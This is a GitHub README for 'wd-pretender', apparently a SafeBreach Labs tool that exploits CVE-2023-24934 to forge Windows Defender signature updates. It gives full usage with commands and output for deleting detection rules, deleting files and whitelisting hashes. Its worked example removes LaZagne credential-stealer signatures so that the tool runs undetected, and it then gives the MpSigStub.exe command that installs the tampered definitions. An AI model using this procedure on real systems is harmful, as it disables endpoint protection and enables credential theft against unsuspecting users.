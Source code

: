# wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. 


## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Installation 
Windows with Python 3.10+ with the libraries mentioned in the file `requirements.txt`


## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass,delete,friendly}
    bypass              bypass windows defender rules by threat name
    delete              delete file by modifying rules
    friendly            add hash to friendly files threat

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT             output folder for the exported vdm files
  -d DEFINITIONS_PATH   set explicit definitions path
```

### Bypass
```
        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options] bypass [-h] threat_name

positional arguments:
  threat_name  delete all threats matching <threat_name>
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass lazagne
```

Output:

```
python .\wd-pretender.py -o C:\Definitions bypass lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5235DDA9-EDFD-456F-A39A-88CF98DA5B71}
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm
[+] Enumerating Anti-Virus Definitions
[+] Threats Containing: lazagne
        Deleting => b'\xd8!LaZagne'
        Deleting => b'HackTool:Python/LaZagne'
        Deleting => b'HackTool:Python/LaZagne.A!MTB'
        Deleting => b'\xd8!LaZagne!ml'
        Deleting => b'HackTool:Python/LaZagne.D!MTB'
        Deleting => b'\xcc!Golazagne.A!MTB'
        Deleting => b'HackTool:Python/LaZagne.B'
        Deleting => b'\xd8!LaZagne!sms'
        Deleting => b'\xcc!Lazagne.A!MTB'
        Deleting => b'\xcc\xe1Lazagne'
[+] Enumerating Anti-Spyware Definitions
[+] Threats Containing: lazagne
[+] Exporting Definitions into: C:\Definitions
[+] mpasdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] mpavdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] Done!
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.

## License
wd-pretender is released under the BSD 3-Clause License. 
Feel free to modify and distribute this tool responsibly, while adhering to the license terms.